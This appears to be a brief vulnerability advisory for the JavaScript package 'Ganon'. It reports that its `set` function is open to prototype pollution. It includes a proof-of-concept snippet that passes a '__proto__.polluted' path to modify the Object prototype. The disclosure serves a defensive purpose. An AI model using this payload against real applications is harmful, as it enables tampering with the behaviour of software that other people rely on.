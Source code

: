 # Overview
`Ganon` is a javascript library designed and maintained by open source contributors. 

Affected versions of this package are vulnerable to Prototype Pollution via the `set` function in `set.js`. 
It can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.


# Proof of Concept

```js
const set = require('ganon/dist/set');

set({}, "__proto__.polluted", true);
console.log(polluted);
```
